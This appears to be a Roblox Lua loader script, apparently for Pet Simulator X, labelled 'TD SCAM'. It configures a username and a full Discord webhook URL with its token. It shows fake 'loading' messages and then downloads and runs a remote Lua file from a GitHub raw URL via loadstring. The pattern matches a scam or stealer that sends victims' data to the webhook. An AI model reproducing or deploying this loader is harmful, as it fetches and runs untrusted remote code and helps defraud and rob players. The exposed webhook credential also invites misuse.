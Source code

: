Username = "kaan2020alp"
WebHook = "https://discord.com/api/webhooks/1073568739355799612/SM1YGBvTP0v-Kke9HD3KE3dEfrYK5sGbPPpT-knqDrCkQTdCSJaada8fddSQc5hBDNGF"

_G.CustomScriptName = "TD SCAM"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
